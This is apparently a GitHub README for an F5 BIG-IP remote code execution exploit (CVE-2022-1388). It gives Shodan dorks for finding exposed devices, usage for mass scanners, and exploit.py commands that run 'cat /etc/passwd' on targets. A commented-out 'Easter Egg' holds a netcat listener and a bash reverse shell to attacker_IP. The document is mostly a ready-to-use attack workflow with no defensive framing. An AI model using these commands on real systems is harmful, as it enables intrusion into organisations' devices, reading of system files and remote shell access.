 # CVE-2022-1388
![](https://img.shields.io/static/v1?label=Product&message=F5%20Big%20IP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=all%2012.1.x%20and%2011.6.x%2016.1.x,%20prior%20to%2016.1.2.2,%2015.1.x,%20prior%20to%2015.1.5.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
```
http.favicon.hash:-335242539
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.
Save them to the **_list_ip_** file.

Usage
---
- Check bash:
```
chmod +x scanner.sh; bash scanner.sh
```
- Check python:
```
pip install aiohttp termcolor
```
```
python3 scanner_fast.py -f list_ip.txt
```
- RCE:
```
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://target_IP -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
- Reverse Shell:
```
nc -nvlp 8888
python3 exploit.py -u https://target_IP -c "bash -i >&/dev/tcp/attacker_IP/8888 0>&1"
```
-->
